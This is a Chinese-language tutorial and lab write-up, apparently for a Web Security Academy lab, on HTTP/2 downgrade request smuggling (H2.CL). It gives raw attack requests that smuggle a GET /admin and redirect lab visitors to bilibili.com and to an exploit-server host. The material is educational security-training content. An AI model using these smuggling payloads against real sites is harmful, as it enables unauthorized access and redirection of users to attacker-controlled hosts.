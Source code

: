 # HTTP/2 降级导致 HTTP 请求走私

HTTP/2 引入强大的机制来让前后端服务器以同一规则解析其长度。它作为一系列单独的帧通过网络发送，每个帧前面都一个显式的 length 字段，该字段告诉服务器要读入的字节数。因此请求长度时帧长度之和。

#### HTTP/2 降级

HTTP/2 和 HTTP/1.1 本质上都是信息表示的不同形式，因此他们相互之间可以互相转化。HTTP/2 降级，就是使用 HTTP/1 的语法重写 HTTP/2 的请求。当 后端服务器做出 HTTP/1 响应时，前端服务器也会重写为 HTTP/2 格式。

![image-20250411192630611](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411192630611.png)

HTTP/2 是一种二进制协议，为了可读性，我进行如下表示：

- 我们将每条消息显示为单个实体，而不是单独的 “帧”。
- 我们使用纯文本 name 和 value 字段显示标头。
- 我们在伪 Headers 名称前加上冒号，以帮助将它们与普通 Headers 区分开来。

### H2.CL 漏洞

CL头注入：HTTP/2协议中不使用`Content-Length`头（依赖帧长度），但降级到HTTP/1时，前端可能自动生成`Content-Length`头。若攻击者手动注入`Content-Length`头，可能导致前后端解析冲突，导致自动生成的 CL 被攻击者手动注入的 CL 覆盖掉。

核心：**简而言之，就是手动指定 CL，覆盖降级后生成的 CL。**

前端服务器（HTTP/2）:

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0									<------- 手动指定的 CL
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

后端服务器（HTTP/1）：

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0									<------- 手动指定的 CL 没有变化，覆盖成功。

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H

# 如上所示，手动指定的 Content-Length: 0 覆盖了降级时自动生成的。
```

### H2.CL 漏洞进行 url 重定向

1. 发送 attack 包。

```
POST / HTTP/2
Host: 0ab8005504139bda805a030a00b60029.web-security-academy.net
Cookie: session=pODyx1nBfLPDSSw9t0C7INqC7z0NYovb
Sec-Ch-Ua: "Microsoft Edge";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Content-Length: 0

SMUGGLED
```

![image-20250411194435308](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411194435308.png)

2. 可构造 url 重定向的 HTTP 请求走私包。逻辑是 host 和 get 参数作为 url。响应 Location 头表示重定向目标地址。

```
POST / HTTP/2
Host: 0ab8005504139bda805a030a00b60029.web-security-academy.net
Cookie: session=pODyx1nBfLPDSSw9t0C7INqC7z0NYovb
Sec-Ch-Ua: "Microsoft Edge";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Content-Length: 0

GET /resources HTTP/1.1
Host: www.bilibili.com
Content-Length: 5

x=1
```

![image-20250411195015711](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411195015711.png)

3. 重定向到攻击者网站。

```
Content-Length: 0

GET /resources HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Length: 5

x=1
```

4. 发送 attack 数据包后，访问 lab 主页，出现重定向。

![image-20250411195545298](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411195545298.png)